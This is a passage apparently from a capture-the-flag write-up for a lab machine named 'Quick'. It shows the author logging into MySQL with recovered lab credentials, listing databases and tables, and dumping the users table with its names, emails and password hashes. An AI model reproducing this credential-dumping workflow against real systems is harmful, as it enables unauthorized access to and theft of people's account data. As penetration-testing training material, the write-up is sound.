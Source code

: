 I logged in with that and dump that all the hashes for the users.

```nix
sam@quick:/tmp$ mysql -D quick -u db_adm -p
mysql -D quick -u db_adm -p
Enter password: db_p4ss

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8235
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| quick              |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use quick
use quick
Database changed
mysql> show tables;
show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

mysql> select * from users;
select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql>
```
